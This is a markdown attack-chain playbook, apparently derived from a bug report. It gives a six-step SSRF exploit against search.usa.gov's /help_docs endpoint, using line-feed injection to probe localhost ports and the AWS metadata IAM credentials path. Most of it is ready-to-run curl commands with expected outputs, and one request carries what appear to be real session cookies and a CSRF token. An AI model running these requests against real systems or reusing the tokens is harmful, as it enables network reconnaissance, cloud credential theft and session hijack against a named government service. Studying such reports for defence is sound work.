

# SSRF Bypass in Search.gov Help Docs to Scan Internal Ports and Access AWS Metadata

Multi-stage attack chain demonstrating exploitation of an SSRF vulnerability in the /help_docs endpoint, allowing internal network reconnaissance and AWS metadata access via a line feed bypass.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 6 |
| Execution Time | ~15 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite]]
- [[tools/Fiddler]]
- [[tools/ZAP]]

### Target Environment

- Web platform: search.usa.gov
- Required services/ports: HTTP/HTTPS on port 443, internal ports like 21 (closed), 22 (open), AWS metadata on 169.254.169.254
- Network access requirements: Internet access to search.usa.gov, authenticated session

### Initial Access Requirements

- Credential requirements: Valid Search.gov account credentials
- Network position: External attacker with authenticated access
- Prior access needed: None, but login required

## Detailed Attack Procedures

### Step 1: Authenticate and Access Help Docs Endpoint
procedure: [[procedures/Authenticate-and-Access-Help-Docs-Endpoint]]

**Objective**: Gain authenticated access to the vulnerable /help_docs endpoint by logging into Search.gov and navigating to the help manual.

**Instructions**: Log in to Search.gov using valid credentials, then navigate to the help manual section to reach the /help_docs endpoint.

**Expected Output**: Successful login and access to the help manual page, with session cookies established.

**Success Indicators**:
- Authenticated session active (cookies present)
- Help manual page loads without errors

### Step 2: Send Normal Help Docs Request
procedure: [[procedures/Send-Normal-Help-Docs-Request]]

**Objective**: Verify normal functionality of the /help_docs endpoint with a legitimate URL to establish a baseline.

**Instructions**: Use a proxy tool like [[tools/Burp-Suite]] to intercept and send a GET request to /help_docs with a valid external URL parameter.

Execute [[commands/help-docs-normal-get]]:

```bash
curl -X GET "https://search.usa.gov/help_docs?url=https%3A%2F%2Fsearch.gov%2Fmanual%2Faccount.html" -H "Host: search.usa.gov" -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:65.0) Gecko/20100101 Firefox/65.0" -H "Accept: application/json, text/javascript, */*; q=0.01" -H "Accept-Language: ja,en-US;q=0.7,en;q=0.3" -H "Accept-Encoding: gzip, deflate, br" -H "Referer: https://search.usa.gov/account" -H "X-NewRelic-ID: VgYAV1BRCxABU1JUBAUCXlI=" -H "X-CSRF-Token: /2jDOc6aYEZA5VealIrF44qJZtY0iDiTsALu8HYA+OOIewuKHREwyh6M0wGa2WC9amTPX4vPMjj0YQIjys3nNA==" -H "X-Requested-With: XMLHttpRequest" -H "Connection: close" -H "Cookie: _ga=GA1.2.924676610.1553290937; _gid=GA1.2.1047460386.1553290937; _ga=GA1.3.924676610.1553290937; _gid=GA1.3.1047460386.1553290937; _session_id=a0d5ecbfa9404ea9ffad4cb3ea771dea; user_credentials=1055608db95b714d9ae2ef05a4e1b83aa138ad5fca67422f02ca795ec2a74179bb15c610dd33f5e6f200be0de0e812a8fe3d59a0027b290b5377ab2a65da1f19%3A%3A5992" --cookie-jar cookies.txt
```

**Expected Output**: HTTP 200 OK with content from the legitimate URL loaded in the response body.

**Success Indicators**:
- Response time under 1 second
- Valid content retrieved without errors

### Step 3: Test SSRF Bypass on Closed Port
procedure: [[procedures/Test-SSRF-Bypass-on-Closed-Port]]

**Objective**: Test the SSRF bypass on a closed localhost port (21) to observe quick response times confirming the injection works without connection delays.

**Instructions**: Modify the URL parameter in the request to inject an internal localhost URL followed by %0A and a legitimate URL, targeting port 21.

Execute [[commands/ssrf-localhost-21-test]] using a proxy:

```bash
curl -X GET "https://search.usa.gov/help_docs?url=http://127.0.0.1:21/?%0Ahttps%3A%2F%2Fsearch.gov%2Fmanual%2Faccount.html" -H "Host: search.usa.gov" -H "Cookie: [your_session_cookies]" --cookie cookies.txt
```

**Expected Output**: HTTP 200 OK with ~450ms response time and error message: 'Unable to retrieve http://127.0.0.1:21/?\nhttps://search.gov/manual/account.html'.

**Success Indicators**:
- Short response time (~450ms)
- Error indicates attempted internal fetch

### Step 4: Test SSRF Bypass on Open Port
procedure: [[procedures/Test-SSRF-Bypass-on-Open-Port]]

**Objective**: Test the SSRF bypass on an open localhost port (22) to observe timeout delays, confirming port openness and SSRF success.

**Instructions**: Similar to previous, but target port 22 which is open (SSH).

Execute [[commands/ssrf-localhost-22-test]]:

```bash
curl -X GET "https://search.usa.gov/help_docs?url=http://127.0.0.1:22/?%0Ahttps%3A%2F%2Fsearch.gov%2Fmanual%2Faccount.html" -H "Host: search.usa.gov" -H "Cookie: [your_session_cookies]" --cookie cookies.txt
```

**Expected Output**: HTTP 200 OK with long response time (~10,468ms) and similar error message.

**Success Indicators**:
- Extended response time due to timeout
- Confirms open port detection

### Step 5: Access AWS Metadata Existing Endpoint via SSRF
procedure: [[procedures/Access-AWS-Metadata-Existing-Endpoint-via-SSRF]]

**Objective**: Use SSRF to access an existing AWS metadata endpoint, confirming internal service detection via empty response.

**Instructions**: Inject payload targeting AWS IAM security credentials metadata.

Execute [[commands/ssrf-aws-iam-credentials-test]]:

```bash
curl -X GET "https://search.usa.gov/help_docs?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/?%0Ahttps%3A%2F%2Fsearch.gov%2Fmanual%2Faccount.html" -H "Host: search.usa.gov" -H "Cookie: [your_session_cookies]" --cookie cookies.txt
```

**Expected Output**: HTTP 200 OK with empty body: {"body":""}.

**Success Indicators**:
- Empty response body
- Indicates successful internal access to existing endpoint

### Step 6: Test AWS Metadata Non-Existent Endpoint via SSRF
procedure: [[procedures/Test-AWS-Metadata-Non-Existent-Endpoint-via-SSRF]]

**Objective**: Test a non-existent AWS endpoint to distinguish from existing ones via error response.

**Instructions**: Target a misspelled endpoint like 'security-credentialx'.

Execute [[commands/ssrf-aws-iam-credentialx-test]]:

```bash
curl -X GET "https://search.usa.gov/help_docs?url=http://169.254.169.254/latest/meta-data/iam/security-credentialx/?%0Ahttps%3A%2F%2Fsearch.gov%2Fmanual%2Faccount.html" -H "Host: search.usa.gov" -H "Cookie: [your_session_cookies]" --cookie cookies.txt
```

**Expected Output**: HTTP 200 OK with error: 'Unable to retrieve http://169.254.169.254/latest/meta-data/iam/security-credentialx/?\nhttps://search.gov/manual/account.html'.

**Success Indicators**:
- Standard error response
- Confirms endpoint differentiation

## Attack Chain Summary

### Key Achievements

1. Bypassed SSRF protections using %0A line feed injection
2. Scanned internal ports via response time differences
3. Accessed and distinguished AWS metadata endpoints for infrastructure mapping

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[Active Scanning]] Active Scanning

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Reconnaissance]] Reconnaissance
- [[Discovery]] Discovery

---

*Last updated: 2023-10-01T00:00:00Z*
